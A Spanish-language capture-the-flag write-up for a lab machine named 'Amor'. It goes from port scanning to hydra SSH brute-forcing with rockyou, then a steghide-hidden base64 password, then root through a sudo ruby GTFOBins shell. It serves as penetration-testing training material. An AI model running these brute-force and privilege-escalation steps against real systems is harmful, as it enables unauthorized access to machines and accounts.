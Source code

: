 # Amor

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto los puertos 22 y 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFOlcvTYtJesi6ym4P8zs6NrI1vxFDJUA1MZuHNnJnTpn2cfHyL5Sc7ZuA8TnpH9OLkUnRrZLfGP6SVEDcxX6F8=
|   256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINj1tBchFeGScA7WX6BgUscF+TmiVpcs2YiGxuOotPel
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
Como no tenemos usuarios de ssh ni la versión de OpenSSH nos permite la enumeración de usuarios, vamos a ver que es lo que podemos de enumerar en el puerto 80.
Vemos una nota importante que podemos, de la que podemos obtener dos posibles usuarios ssh.
```
¡Importante! Despido de empleado
Juan fue despedido de la empresa por enviar un correo con la contraseña a un compañero.
Firmado: Carlota, Departamento de ciberseguridad
'''
Con hydra probamos si a través de fuerza bruta podemos obtener acceso con ellos y vemos que con carlota podemos obtener una contraseña.
```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
## Explotación.
```
❯ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-20 10:42:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
```
Nos conectamos por ssh.
```bash
ssh carlota@172.17.0.2
```
```
❯ ssh carlota@172.17.0.2
carlota@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon May 20 07:58:35 2024 from 172.17.0.1
$ whoami
carlota
```
Hacemos un pequeño tratamiento de la tty.
```bash
script /dev/null -c bash
```
En el escritorio encontramos una carpeta con una imagen.
```
4carlota@d7b55dad8c9e:~/Desktop/fotos/vacaciones$ ll
total 60
drwxr-xr-x 1 root root  4096 Apr 26 11:02 ./
drwxr-xr-x 1 root root  4096 Apr 26 11:02 ../
-rw-r--r-- 1 root root 51914 Apr 26 11:02 imagen.jpg
```
Nos descargamos la imagen a nuestro equipo para ver si tiene algo oculto.
Con python creamos en la ubicación de la imagen un servidor http y la descargamos con wget desde nuestro ordenador.
Servidor Python.
```bash
python3 -m http.server 8080
```
Descargar a nuestro equipo.
```bash
wget http://172.17.0.2:8080/imagen.jpg
```
Una vez en nuestro equipo comprobamos con **steghide** si tiene información oculta y vemos que si que tiene un archivo oculto.
```bash
steghide extract -sf imagen.jpg
```
```
❯ steghide extract -sf imagen.jpg
Enter passphrase: 
wrote extracted data to "secret.txt".
```
De passphrase le damos a INTRO sin poner nada. Leemos el contenido de **secret.txt** y vemos otra contraseña.
```
❯ cat secret.txt
ZXNsYWNhc2FkZXBpbnlwb24=
```
Vemos que es una contraseña cifrada en base64.
```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```
```
❯ echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
eslacasadepinypon
```
Si vemos cuantos usuario hay en el sistema hay uno que es **Oscar** que vamos a utilizar la contraseña obtenida para escalar privilegios.
## Escalada de privilegios.
```
carlota@d7b55dad8c9e:/home$ ll
total 24                                                                                                                                                                                                                                    
drwxr-xr-x 1 root    root    4096 Apr 26 11:01 ./                                                                                                                                                                                           
drwxr-xr-x 1 root    root    4096 May 20 07:53 ../                                                                                                                                                                                          
drwxr-x--- 1 carlota carlota 4096 May 20 07:57 carlota/                                                                                                                                                                                     
drwxr-x--- 1 oscar   oscar   4096 Apr 26 11:02 oscar/                                                                                                                                                                                       
drwxr-x--- 2 ubuntu  ubuntu  4096 Apr 23 15:31 ubuntu/
```
```bash
su oscar
```
Y hacemos un pequeño tratamiento de la tty.
```
carlota@d7b55dad8c9e:/home$ su oscar
Password:                                                                                                                                                                                                                                   
$ whoami                                                                                                                                                                                                                                    
oscar                                                                                                                                                                                                                                       
$ script /dev/null -c bash                                                                                                                                                                                                                  
Script started, output log file is '/dev/null'.                                                                                                                                                                                             
oscar@d7b55dad8c9e:/home$
```
Y para escalar privilegios a root, comprobamos si oscar puede ejecutar algún binario con privilegios de root y encontramos que si.
```bash
sudo -l
```
```
oscar@d7b55dad8c9e:/home$ sudo -l
Matching Defaults entries for oscar on d7b55dad8c9e:                                                                                                                                                                                        
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty                                                                                                              
                                                                                                                                                                                                                                            
User oscar may run the following commands on d7b55dad8c9e:                                                                                                                                                                                  
    (ALL) NOPASSWD: /usr/bin/ruby 
```
Con ruby podemos lanzarnos una bash y así obtener privilegios de root. Para ver como hacerlo vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/).
```bash
sudo ruby -e 'exec "/bin/sh"'
```
```
oscar@d7b55dad8c9e:/home$ sudo ruby -e 'exec "/bin/sh"'
# whoami                                                                                                                                                                                                                                    
root                                                                                                                                                                                                                                        
#
```

